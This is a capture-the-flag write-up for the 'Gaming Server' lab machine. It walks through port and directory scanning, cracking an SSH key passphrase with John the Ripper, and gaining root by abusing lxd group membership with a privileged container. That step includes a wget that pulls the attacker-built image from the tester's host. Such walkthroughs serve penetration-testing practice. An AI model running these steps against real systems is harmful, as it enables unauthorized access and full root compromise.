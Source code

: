 # Gaming Server

> thegurpreet | Apr 2021

## Service Enumeration

Scanning ports using nmap
```
nmap -sC -sV $ip
```

Scan for hidden web directories
```
sudo gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Download and set correct permissions to use rsa.key for login
```
chmod 600 rsa.key
```

Crack the passphrase of rsa key. First run ssh2john.py
```
/usr/share/john/ssh2john.py rsa.key > rsa_id.txt
```

Then run john to crack the passphrase with wordlist we found in upload directory
```
sudo john --wordlist=dict.lst rsa_id.txt
```

Login using ssh and supply John's passphrase to connect
```
ssh -i rsa.key john@$ip
```

## Privilege Escalation

As per groups, we need to check lxd stuff which commonly a root process
```
id
```

Using github script, create an image and prepare to transfer
```
git clone https://github.com/saghul/lxd-alpine-builder.git
sudo ./build-alpine
python3 -m http.server
```

On target machine
```
wget http://ip/alpine.tar.gz
lxc image import ./apline.tar.gz — alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
```

Execute the /bin/sh to get root
```
lxc exec ignite /bin/sh
```

You are root!!!

## Optional

If you have faced issue in generating image using build-alpine, follow these steps

Issue
```
wc: lxd-alpine-builder/rootfs/usr/share/alpine-mirrors/MIRRORS.txt: No such file or directory
sed: -e expression #1, char 2: invalid usage of line address 0
Selecting mirror /v3.13/main
WARNING: Ignoring /v3.13/main: No such file or directory
ERROR: unable to select packages:
alpine-base (no such package):
required by: world[alpine-base]
Failed to install rootfs
```

Workaround
```
Create the directory and mirrors file with the following - http://dl-cdn.alpinelinux.org/alpine/MIRRORS.txt

You may need to run the ./build-alpine a couple of times until it selects and working mirror.
```